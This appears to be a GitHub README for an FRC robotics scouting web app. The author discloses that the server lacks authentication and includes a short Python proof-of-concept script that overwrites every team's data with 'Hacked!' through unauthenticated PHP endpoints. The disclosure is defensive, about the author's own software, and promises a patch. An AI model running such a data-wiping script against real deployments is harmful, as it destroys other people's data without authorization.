 # FRCScoutingWebApp
Server ready scouting app. I'd recommend you password protect the domain (It's pretty easy to wipe out all server data by modifying scripts or by creating a program ping the server).

I made this simple script in a few minutes; it will wipe out all the information in the team files (and replace it with "Hacked!" because we gotta have some fun). 

```python
import requests
import json
import sys

url = str(sys.argv[1])
url1 = "http://"+url+"/php/getAllTeams.php"
url2 = "http://"+url+"/php/setTeamInfo.php?q="
text = requests.get(url1).text
text = text.replace(",,", ",").replace("[,", "[").replace(",]", "]")

while text.find(",,") != -1 or text.find("[,") != -1 or text.find(",]") != -1:
    text = text.replace(",,", ",").replace("[,", "[").replace(",]", "]")

data = json.loads(text)

for i in data:
    requests.post(url2+str(i["Number"]), data={'data':'Hacked!'})
```
It's unlikely anyone would want to destroy anything, but as proof of concept it shows it's not secure. A security patch will be put out in the future with the server side verifying that a change request is valid.
